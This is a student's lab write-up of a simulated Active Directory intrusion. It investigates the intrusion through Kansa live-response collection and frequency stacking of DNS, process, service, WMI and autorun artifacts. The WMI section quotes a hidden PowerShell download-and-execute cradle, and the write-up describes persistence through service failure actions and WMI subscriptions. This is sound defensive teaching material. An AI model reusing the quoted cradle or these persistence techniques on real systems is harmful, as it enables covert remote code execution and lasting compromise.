# Operation Blind Spot
### Multi-Stage Intrusion Detection Using Kansa IR Framework & Frequency Analysis

> **A hands-on Active Directory lab simulating a real-world intrusion chain — from initial access through four overlapping persistence mechanisms — investigated entirely through PowerShell-based live response collection and stacking analysis.**

---

## The Premise

An attacker compromised domain credentials and established a foothold on a Windows workstation. What followed was a methodical intrusion: lateral movement to a second machine, four persistence layers of increasing stealth, a rogue admin backdoor, and a staging share for potential exfiltration.

None of this triggered an alert.

This investigation demonstrates how **Kansa** — a PowerShell remoting-based IR framework — collected forensic artifacts across the environment and how **least-frequency-of-occurrence stacking** surfaced every single implant from the noise of 200+ services, 150+ scheduled tasks, and thousands of running processes.

---

## Environment

| Role | Hostname | IP |
|---|---|---|
| Domain Controller | DC01 | 192.168.7.132 |
| Primary Victim | PC01 (WS01) | 192.168.7.138 |
| Lateral Movement Target | PC02 (WS02) | 192.168.8.100 |
| Attacker | Kali Linux | 192.168.7.250 |

**Domain:** MYDFIR.local  
**Collection Tool:** [Kansa](https://github.com/davehull/Kansa) by Dave Hull  
**Analysis Tool:** Timeline Explorer  
**Payload Generation:** Metasploit / msfvenom  
**Lateral Movement:** Impacket PsExec

---

## ATT&CK Coverage

| Technique | ID | Phase |
|---|---|---|
| Valid Accounts | T1078 | Initial Access |
| PowerShell | T1059.001 | Execution |
| SMB / Windows Admin Shares | T1021.002 | Lateral Movement |
| Windows Remote Management | T1021.006 | Lateral Movement |
| Registry Run Keys | T1547.001 | Persistence |
| Scheduled Task | T1053.005 | Persistence |
| Windows Service (failure action) | T1543.003 | Persistence |
| **WMI Event Subscription** | **T1546.003** | **Persistence** |
| Create Local Account | T1136.001 | Persistence |
| Account Discovery | T1087.001 | Discovery |
| Network Connections Discovery | T1049 | Discovery |
| Process Discovery | T1057 | Discovery |
| Ingress Tool Transfer | T1105 | C2 |
| Exfiltration to Code Repository | T1567.001 | Exfiltration (Staged) |

---

## Attack Phases

| Phase | Description | Artifact Generated |
|---|---|---|
| 1 | Credential reuse via CrackMapExec | Domain logon event |
| 2 | Impacket PsExec foothold on PC01 | Random 8-char exe in `C:\Windows\`, random 4-char service |
| 3 | Recon: `whoami`, `net user`, `netstat` | Prefetch entries for recon binaries |
| 4 | Meterpreter payload download via IWR | DNS cache (githubusercontent), C2 TCP connection |
| 5 | Lateral movement to PC02 via PsExec | SMB session artifacts, second random exe on PC02 |
| 6 | Persistence: Registry Run key (Base64 encoded PowerShell) | ASEP autorun entry, launch string |
| 7 | Persistence: Scheduled task `\HealthCheck` | Scheduled task artifact |
| 8 | Persistence: Spooler service failure action modified | ServiceFail artifact — binary clean, recovery action malicious |
| 9 | Persistence: WMI Event Subscription | WMI Event Consumer artifact — fileless, survives reboot |
| 10 | Backdoor: `helpdesk` local admin created | Local admin stack anomaly |
| 11 | Staging: Rogue SMB share in `C:\Users\Public\Music\Staging` | SMB share artifact |

---

## Investigation Results

### 1 — DNS Cache Stack
**Tool:** `Get-DNSCacheStack.ps1`  
**Finding:** `gist.githubusercontent.com` and `raw.githubusercontent.com` resolved exclusively on PC01. No other machine in the environment queried GitHub infrastructure. CloudFront CDN entries also present on PC01 only.

> ct=4 reflects GitHub's CDN returning 4 A records (185.199.108–111.133) per lookup — a single resolution produces 4 rows. The anomaly is their presence on PC01 and complete absence on PC02/DC01.



**Why it matters:** DNS cache is the earliest indicator of C2 infrastructure contact. GitHub Gist/Raw URLs on a corporate workstation are immediately suspicious — most employees have no legitimate reason to resolve raw content delivery endpoints during business hours. This also directly corroborates the service failure action and WMI consumer persistence mechanisms found later, both of which reference these same GitHub URLs.

---

### 2 — Process Path Stack
**Tool:** `Get-ProcessWMIPathStack.ps1`  
**Filter:** Path contains `C:\Windows\` AND does NOT contain `System32`  
**Finding:** Multiple random 8-character executables executing from `C:\Windows\` root — a path that should contain almost no executables in a clean environment.



**Why it matters:** `C:\Windows\` (not `System32`) is an unusual execution path. Impacket PsExec drops a randomly-named binary here and registers it as a service for each invocation — the random naming is a deliberate attempt to evade signature detection. The multiple entries reflect repeated lateral movement attempts during the lab. VirusTotal confirmed these as Remcom/Metasploit variants.

---

### 3 — Network Connections Stack
**Tool:** Custom Netstat stacking query  
**Finding:** `svchost32.exe` maintaining two ESTABLISHED TCP connections to `192.168.7.250:443` (attacker's Kali machine). ct=1 — no other process in the environment communicates with this IP.



**Why it matters:** Port 443 is deliberately chosen by attackers to blend with HTTPS traffic. The process-to-IP correlation here directly links the suspicious binary from Investigation 2 to active C2 communication — this is the pivot that connects artifact to infrastructure.

---

### 4 — SMB Sessions Stack
**Tool:** `Get-LogparserStack.ps1` (generic)  
**Finding:** Single inbound SMB session to PC02 from `192.168.7.138` (PC01) under `MYDFIR\Administrator`.



**Why it matters:** This single row maps the lateral movement path precisely — PC01 → PC02, domain admin account, one session. Cross-referenced with Investigation 2 (PC02 also has a random-named executable), this confirms the attacker moved laterally using stolen domain credentials via SMB/PsExec.

---

### 5 — SMB Shares Stack
**Tool:** `Get-LogparserStack.ps1` (generic)  
**Finding:** `C$`, `IPC$`, `ADMIN$` present on all 3 machines (CNT=3, expected). `Share$` pointing to `C:\Users\Public\Music\Staging` present on PC01 only (CNT=1).



**Why it matters:** `C:\Users\Public\Music` is world-writable by default — no elevated privileges needed to write to it, making it an attractive staging location. A custom SMB share at this path indicates the attacker intended to facilitate cross-machine file access or exfiltration staging. The public location also makes it harder to spot during manual review.

---

### 6 — Local Admins Stack
**Tool:** `Get-LocalAdminStack.ps1`  
**Finding:** `Administrator` and `MYDFIR\Domain Admins` appear on all 3 machines (ct=3, baseline). `helpdesk` appears on PC01 only (ct=1).



**Why it matters:** The `helpdesk` account name is deliberately chosen to sound like a legitimate IT support account — a textbook **ambiguous identifier** designed to avoid immediate suspicion during manual review. The stacking approach makes it impossible to hide: anything deviating from the environment baseline rises to the top regardless of how legitimate the name sounds.

---

### 7 — Scheduled Tasks Stack
**Tool:** Custom `Get-SchedTasksAllStack.ps1`  
**Finding:** `\HealthCheck` task authored by `MYDFIR\PC01$`, running `C:\Windows\svchost32.exe`. Quantity=1 — no other machine has this task.



**Why it matters:** `HealthCheck` is another ambiguous name — it sounds like a legitimate system maintenance task. The `Task To Run` column exposes it: `C:\Windows\svchost32.exe` is the same Meterpreter payload identified in Investigation 2. This ensures the backdoor survives reboots by re-executing the payload at system startup.

---

### 8 — Service Failure Action Stack
**Tool:** `Get-SvcFailStack.ps1`  
**Finding:** 192 services across the environment. 191 have no failure action configured. `Spooler` — the Print Spooler service — has a malicious PowerShell IEX+IWR download cradle as its failure recovery action on PC01 only.



**Why it matters:** This is the most sophisticated persistence mechanism in this scenario. The Spooler service binary is completely clean — correct path (`C:\Windows\System32\spoolsv.exe`), valid Microsoft signature, matching hash. Standard IR checks on services (name, path, hash) show nothing wrong. Only `sc qfailure` or Kansa's `GetSvcFail` module reveals the tampered recovery action. Most analysts never query failure actions during a standard sweep. The IEX+IWR command pulls from `gist.githubusercontent.com` — directly corroborating the DNS cache findings from Investigation 1.

---

### 9 — WMI Event Consumer Stack
**Tool:** `Get-LogparserStack.ps1` with `-Divorce` flag  
**Finding:** `SCM Event Log Consumer` present across all machines (expected baseline). `WMI Background SVC` present on PC01 only, with a PowerShell download cradle as its `CommandLineTemplate`.



**Why it matters:** WMI event subscriptions are the stealthiest persistence mechanism in this investigation. They exist entirely within the WMI repository — no binary on disk, no registry run key, no scheduled task entry. They survive reboots silently. Most scanning tools and standard IR playbooks never inspect `root\subscription`. Normal WMI consumers in a Windows enterprise are highly predictable — the moment a non-standard consumer appears, it has nowhere to hide in a frequency stack. The command template: `powershell.exe -WindowStyle Hidden -NonInteractive -ep bypass -c "IEX(IWR 'https://gist.githubusercontent.com/AboShafra/...' -UseBasicParsing).Content"` — same GitHub infrastructure as Investigations 1 and 8.

---

### 10 — Prefetch Listing Stack
**Tool:** Modified `Get-PrefetchListingStack.ps1` with `EXTRACTTOKEN` to strip hash suffixes  
**Finding:** `SVCHOST32.EXE`, `WHOAMI.EXE`, and `NET.EXE` at CT=1 — executed on only one machine.



**Why it matters:** `WHOAMI.EXE` on a corporate workstation is a near-universal attacker recon fingerprint. No regular employee runs `whoami` from the command line. `NET.EXE` alongside it confirms account enumeration (`net user`, `net localgroup administrators`). `SVCHOST32.EXE` in the prefetch confirms the payload executed — even if the binary were later deleted, the prefetch file would remain as execution evidence for up to 128 entries.

---

### 11 — Autorunsc Stack (Unsigned Entries)
**Tool:** Modified `Get-ASEPImagePathLaunchStringUnsignedStack.ps1`  
**Finding:** All unsigned ASEP entries with ct=1 surface the attack artifacts: `svchost32.exe`, multiple random PsExec binaries from `C:\Windows\`, all without a valid code signature.



**Why it matters:** Autoruns provides the broadest persistence sweep available — registry keys, services, scheduled tasks, shell extensions, browser helpers, WinLogon entries, and more in a single collection. Filtering to unsigned entries immediately cuts legitimate Microsoft-signed software from the view, leaving only the attacker's unsigned implants. The multiple random-named executables are a documented fingerprint of repeated Impacket PsExec invocations — each run generates a new uniquely-named binary, a behavioral signature that stacking makes trivially obvious.

---

## Key Takeaways

**On stacking:** Malicious artifacts are rare by design. Attackers deploy to the minimum number of systems needed — not the whole environment. Frequency analysis exploits this: count every artifact across every host, sort ascending, and anomalies float to the top regardless of how legitimate they're named.

**On persistence depth:** Four overlapping persistence mechanisms isn't paranoia — it's operational security. Each layer uses a different detection path. An analyst who checks services but not failure actions, or who checks scheduled tasks but not WMI subscriptions, misses part of the picture. Comprehensive collection is the prerequisite for comprehensive detection.

**On the service failure action:** This is the technique most likely to survive a standard IR sweep. Binary path correct. Hash valid. Signature verified. The tampered field — failure recovery action — isn't in any default artifact collection template. Kansa's `GetSvcFail` module exists precisely because someone got burned by missing this.

**On collection timing:** DNS cache entries for `gist.githubusercontent.com` had expired between attack execution and initial Kansa collection — requiring a second targeted collection run. Volatile artifacts (DNS cache, active network connections, SMB sessions) must be collected first and immediately. The order of volatility isn't a theoretical concept; in this lab it cost one entire investigation category.

**On tooling vs. analysis:** Kansa collected 11 artifact categories across 3 machines and organized everything into per-host, per-module CSV files. It did not identify a single finding. Every finding in this investigation required a human analyst to ask "what's rare here, and why?" Tools surface data. Analysts surface meaning.

---

## Tools & References

| Tool | Purpose | Link |
|---|---|---|
| Kansa | PowerShell-based IR collection framework | [GitHub](https://github.com/davehull/Kansa) |
| Timeline Explorer | CSV analysis and pivoting | [EricZimmerman.github.io](https://ericzimmerman.github.io) |
| LogParser 2.2 | SQL-based text file querying | [Microsoft Download](https://www.microsoft.com/en-us/download/details.aspx?id=24659) |
| Metasploit Framework | Payload generation and C2 | [Rapid7](https://www.metasploit.com) |
| Impacket | PsExec lateral movement simulation | [GitHub](https://github.com/fortra/impacket) |
| MITRE ATT&CK | Technique mapping | [attack.mitre.org](https://attack.mitre.org) |

---

## Author

**AboShafra**  
Cybersecurity Student — Ranked 1st, Sana'a University  
Technical Maintenance & Configuration Engineer, SawtAlhayat Hearing Center  
Preparing for BTL1 Certification

[LinkedIn](www.linkedin.com/in/ibrahim-abdulsalam-alshami) | [GitHub](https://github.com/AboShafra)

---

*This lab was conducted in an isolated virtual environment. All techniques are documented for defensive and educational purposes.*
